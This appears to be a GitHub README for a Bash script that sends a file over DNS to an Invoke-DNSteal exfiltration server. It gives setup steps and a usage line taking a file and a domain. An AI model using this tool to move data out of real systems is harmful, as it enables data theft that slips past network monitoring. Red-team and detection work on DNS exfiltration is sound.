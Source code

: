 # sendFileInvokeDNSteal
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run Invoke-DNSteal.py from https://github.com/JoelGMSec/Invoke-DNSteal in your DNS server
2. Use:
```
./sendFileInvokeDNSteal.sh <file> <domain>
```

